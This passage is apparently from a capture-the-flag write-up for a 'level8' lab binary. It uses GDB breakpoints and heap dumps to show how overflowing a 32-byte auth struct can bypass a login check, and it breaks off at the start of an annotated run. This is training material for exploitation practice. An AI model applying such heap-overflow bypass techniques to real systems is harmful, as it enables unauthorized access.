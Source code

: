 The first line of the content of the heap is interesting.
`0x696d6461	0x00000a6e` is `imda` `00\nn`, which is what we have passed as a second argument when we used the "auth" keyword.
It's in reverse order because of the little-endianness of the system. 

Let's break before the `printf` (the first call line in the main), and ask GDB to print the content of the heap each time it reaches that breakpoint:
```
(gdb) disass main
...TRUNCATE...
   0x0804858e <+42>:	mov    DWORD PTR [esp],eax
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    eax,ds:0x8049a80
...TRUNCATE...
(gdb) break *0x08048591
Breakpoint 1 at 0x8048591
(gdb) command 1
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>echo ------------------------------------------------------\n
>x/20wx 0x804a000
>echo ------------------------------------------------------\n
>continue
>end
(gdb) r
Starting program: /home/user/level8/level8 

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	Cannot access memory at address 0x804a000
(gdb) c
Continuing.
(nil), (nil) 
auth admin

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	0x00000000	0x00000011	0x696d6461	0x00000a6e
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
------------------------------------------------------
0x804a008, (nil) 
```
**It's normal that your GDB writes "0x804a000:	Cannot access memory at address 0x804a000" while you haven't used the "auth" keyword**


The struct `auth` contains space for a string of 32 characters. Thus, we need to overflow 32 bytes and then write something in order to pass the login test.

Look at the comments on the right side (start with "<---"):
```
(gdb) run                                                   <--- Start the program
Starting program: /home/user/level8/level8 

Breakpoint 1, 0x08048591 in main ()
------------------------------------------------------
0x804a000:	Cannot access memory at address 0x804a000
(gdb) c
Continuing.
(nil), (nil) 
auth admin                                                  <--- Auth as anyone

Breakpoint 1, 0x08048591 in main ()
```